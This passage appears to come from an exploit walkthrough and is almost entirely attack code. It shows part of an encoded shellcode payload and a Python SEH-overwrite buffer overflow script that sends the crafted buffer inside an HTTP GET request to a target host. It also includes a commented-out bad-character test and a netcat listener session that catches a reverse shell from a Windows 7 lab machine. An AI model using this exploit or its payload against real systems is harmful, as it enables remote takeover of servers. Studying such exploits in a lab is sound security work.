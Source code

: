 ```python
"\x7d\x06\x82\xd1\x91\x4f\x1d\x4e\x0b\xca\xd5\xef\xd4\xc0\x90"
"\x30\x5e\xe7\x65\xfe\x97\x82\x75\x97\x57\xd9\x27\x3e\x67\xf7"
"\x4f\xdc\xfa\x9c\x8f\xab\xe6\x0a\xd8\xfc\xd9\x42\x8c\x10\x43"
"\xfd\xb2\xe8\x15\xc6\x76\x37\xe6\xc9\x77\xba\x52\xee\x67\x02"
"\x5a\xaa\xd3\xda\x0d\x64\x8d\x9c\xe7\xc6\x67\x77\x5b\x81\xef"
"\x0e\x97\x12\x69\x0f\xf2\xe4\x95\xbe\xab\xb0\xaa\x0f\x3c\x35"
"\xd3\x6d\xdc\xba\x0e\x36\xfc\x58\x9a\x43\x95\xc4\x4f\xee\xf8"
"\xf6\xba\x2d\x05\x75\x4e\xce\xf2\x65\x3b\xcb\xbf\x21\xd0\xa1"
"\xd0\xc7\xd6\x16\xd0\xcd")

crash = "A" * 4061
crash += nseh
crash += seh
crash += shellcode
crash += "D" * (5000 - len(crash))
'''
#\x20\x25\x2b\x2f\x5c
badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x21\x22\x23\x24\x26\x27\x28\x29\x2a\x2c\x2d\x2e\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"
"\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

crash = 'A' * 4500
crash += badchars
crash += 'D' * (5000 - len(crash))
'''

buffer="GET "
buffer+=crash
buffer+=" HTTP/1.1\r\n"

expl = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
expl.connect((ip, port))
expl.send(buffer)
expl.close()
```

And we receive our reverse shell!
```terminal_session
root@kali:~/# nc -lvp 443                                            
listening on [any] 443 ...
connect to [192.168.1.208] from IEWIN7.fios-router.home [192.168.1.201] 49202
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\IEUser\Desktop>
```
